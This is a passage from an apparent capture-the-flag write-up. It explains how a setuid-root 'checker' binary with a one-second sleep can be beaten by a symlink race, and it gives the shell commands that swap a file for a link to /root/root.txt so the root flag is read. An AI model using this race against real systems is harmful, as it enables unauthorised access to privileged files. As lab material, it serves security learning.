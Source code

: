 Besides the fact that we get a segmentation fault if we feed it a big enough file, what is also interesting here is that we see that `setuid` is called with 0 (i.e. root) as an argument. Also, we can see that there is a call to `sleep` for 1 second, which looks almost to good to be true. Apparently, what is going on is that the binary first checks whether we are user 'smasher', before calling setuid with 0, taking a nap for 1 second and finally read the file that we passed.

This sounds like a little symlink race. We end up with the following:

```sh
smasher@smasher:~$ echo "Too late" > shell.php
smasher@smasher:~$ checker shell.php & (sleep 0.1 && ln -sf /root/root.txt shell.php)
[+] Welcome to file UID checker 0.1 by dzonerzy

File UID: 1001

Data:
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

___

1. https://github.com/shenfeng/tiny-web-server/issues/2
2. https://stackoverflow.com/a/28354265/2961949
3. https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-iii/
4. https://www.youtube.com/watch?v=6S4A2nhHdWg
5. http://www.pwntester.com/tag/pwnable/
6. https://robertheaton.com/2013/07/29/padding-oracle-attack/
